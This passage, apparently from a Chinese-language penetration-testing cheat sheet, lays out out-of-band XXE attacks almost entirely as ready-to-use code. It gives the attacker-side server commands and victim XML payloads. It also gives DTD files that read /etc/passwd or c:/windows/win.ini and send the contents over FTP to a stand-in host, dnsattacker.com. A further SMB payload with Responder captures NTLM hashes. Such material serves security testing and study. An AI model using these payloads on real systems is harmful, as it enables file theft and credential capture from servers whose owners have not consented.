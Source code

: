 **攻击者**  
运行 python HTTP 服务器来托管 dtd 文件和 xxeftp 服务器（参考这里）。  

```
python -m SimpleHttpServer 9000


python xxeftp.py
```

  
**受害者：**  

```
<?xml version=&#34;1.0&#34; ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM &#34;http://dnsattacker.com:9000/linux.dtd&#34;>
%sp;
%param1;
]>
<r>&exfil;</r>
```

  
**linux.dtd**  

```
<!ENTITY % data SYSTEM &#34;file:///etc/passwd&#34;>
<!ENTITY % param1 &#34;<!ENTITY exfil SYSTEM 'ftp://dnsattacker.com:2121/%data;'>&#34;>
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpomUHJyangKtwtB0icSxcWxjPmFWS59xStJTafJ52MqDZicolMFV9fg4xA/640?wx_fmt=png&from=appmsg "")  
  
**注意**  
：对于基于 Windows 的受害者机器，使用下面提到的 dtd 文件  
  
**windows.dtd**  

```
<!ENTITY % data SYSTEM &#34;file:///c:/windows/win.ini&#34;>
<!ENTITY % param1 &#34;<!ENTITY exfil SYSTEM 'ftp://dnsattacker.com:2121/%data;'>&#34;>
```

#### SMB [窃取哈希]  
  
**攻击者**  
：运行 responder 捕获哈希  

```
sudo ./Responder.py -I eth0
```

  
**受害者：**  

```
<?xml version=&#34;1.0&#34; encoding=&#34;ISO-8859-1&#34;?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM &#34;\\dnsattacker.com\test&#34; >]>
<foo>&xxe;</foo>
```
